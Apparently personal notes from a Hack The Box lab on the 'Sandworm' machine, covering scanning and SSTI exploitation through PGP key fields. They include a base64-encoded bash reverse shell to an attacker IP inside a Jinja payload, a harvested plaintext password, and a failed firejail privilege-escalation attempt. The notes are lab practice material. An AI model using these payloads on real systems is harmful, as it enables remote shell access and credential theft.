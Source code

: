 └─$ nmap -sV -sC 10.10.11.218
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 04:55 EDT
Nmap scan report for 10.10.11.218
Host is up (0.77s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
|_http-title: Secret Spy Agency | Secret Security Service
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.02 seconds

at https://ssa.htb/guide/encrypt

[](https://ssa.htb/guide/encrypt)

dirb results
+ https://ssa.htb/about (CODE:200|SIZE:5584)                                                                     
+ https://ssa.htb/admin (CODE:302|SIZE:227)                                                                      
+ https://ssa.htb/contact (CODE:200|SIZE:3543)                                                                   
+ https://ssa.htb/guide (CODE:200|SIZE:9043)                                                                     
+ https://ssa.htb/login (CODE:200|SIZE:4392)                                                                     
+ https://ssa.htb/logout (CODE:302|SIZE:229)                                                                     
+ https://ssa.htb/pgp (CODE:200|SIZE:3187)                                                                       
+ https://ssa.htb/process (CODE:405|SIZE:153)  

so we know there is ssti in the key encryption for sandworm

but need understanding over PGP keys

https://github.com/atriox2510/pgp-pysuite.git

when we use this to generate the pgp key and then the signed text we are getting verified

──(kali㉿kali)-[~/pgp-pysuite]
└─$ cat keypgp_uwu.pub.asc 
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQENBGSlPkgBCADc1O0J9Ds4LG/c5+SuRmaSRHACRMqbyI/y/7MXm7AZjMF5rn0U
ZygZIao5z5FmD5Qj508tmlJpnEZGpQtXKV0JeTkeqs8kO+AEoHO5CFtUW7HgyHmn
xUzM1wDFzQZXAh5QjnNtK8MrnPSeD1Xx9qpA1h4Y56P9tBV0c+F3tQsviyMw8qNm
bWF6b24uY29tPokBTgQTAQoAOBYhBHadavRX2zp2k1VrTAbkbNHg8yIUBQJkpT5I
AhsvBQsJCAcCBhUKCQgLAgQWAgMBAh4BAheAAAoJEAbkbNHg8yIU45sH/RBsIngj
wrZCPCZ7kc3si1fkSAATz7Dyt/9KtexEAopL7gf5rmml7lsR2aqamHCU5siWmBkX
7D67np7aJgcyu+F8TZ3vlJsIjsJdTACkNpxlfkgPInKwY9bgJHAEMx5IichkCbi0
N7TxRwuFg+hBywoIq1z/V8ZzCZI5cEzP33v9Tokmtt7QqLeMiky8IO29Jo5XMqud
5tCOTcGQgSxGgh+6zxhr4WRaENTuTuWnliT+KuYzE2ry2pfDZhXU/NlSkuGEdt/4
TehSn+76J+hGDdfD7wCrS3kp6sh5qZDDPVvSKethNsJiUCrhWGPA3ucoXyilcSPf
UxsF/ZT1OZrLJzU=
=b8zD
-----END PGP PUBLIC KEY BLOCK-----

┌──(kali㉿kali)-[~/pgp-pysuite]
└─$ python3 sign.py -c keypgp_uwu.pub.asc -k keypgp_uwu.key.asc -p kali -m hello

[+] Message signed successfully

-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512

hello
-----BEGIN PGP SIGNATURE-----

iQEzBAEBCgAdFiEEdp1q9FfbOnaTVWtMBuRs0eDzIhQFAmSlQkwACgkQBuRs0eDz
WbqmSgFcO2ArBhr/dg4PUWfBDDlMlroZErClV1etKT5U
k46ooF5uyhYmqdAyPKQWGsaqDf3Ma2AgwO2chlUHguY4C1R7ApapPFwDiVgvopuZ
s8hpWrWXIMixaOVrL/9ZNn3SX/cGEEGK0rrLVuqDp1s8UqGosOE5p7Q9Kx5HmjdE
vMPC2pmXnGGt5jTNRLDyEwcIhyq/mCEQ0g0VqiGd6jReIjVx7Oon7D3odcVzUNQ/
MlcmsQJA7gRnGxhh/4cu+wkwmx0v6A==
=b+27
-----END PGP SIGNATURE-----

we will now try and change the uid

https://www.sobyte.net/post/2021-12/modify-gpg-uid-name/

base64 encoded shell

/bin/bash -i >& /dev/tcp/10.10.16.9/1234 0>&1
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx" | base64 -d | bash').read() }}`

python3 keygen.py -p kali -n "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx | base64 -d | bash').read() }}" -e alexa@amazon.com 

python3 sign.py -c keypgp_uwu.pub.asc -k keypgp_uwu.key.asc -p kali -m hello

this got me a shell

![](20230705064345.png)

atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ ls
ls
admin.json
atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ cat admin.json
cat admin.json
{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}

```
silentobserver@sandworm:/opt/tipnet/target/debug$ cat tipnet.d
/opt/tipnet/target/debug/tipnet: /opt/crates/logger/src/lib.rs /opt/tipnet/src/main.rs
```

Exploit to be run is firejail

```
silentobserver@sandworm:~$ python3 exploit.py
Traceback (most recent call last):
  File "/home/silentobserver/exploit.py", line 136, in <module>
    helper_proc, join_file = createHelperSandbox()
  File "/home/silentobserver/exploit.py", line 58, in createHelperSandbox
    proc = subprocess.Popen(
  File "/usr/lib/python3.10/subprocess.py", line 969, in __init__
    self._execute_child(args, executable, preexec_fn, close_fds,
  File "/usr/lib/python3.10/subprocess.py", line 1845, in _execute_child
    raise child_exception_type(errno_num, err_msg, err_filename)
PermissionError: [Errno 13] Permission denied: 'firejail'

silentobserver@sandworm:~$ firejail
-bash: /usr/local/bin/firejail: Permission denied

silentobserver@sandworm:~$ ls -al /usr/local/bin/firejail
-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
```

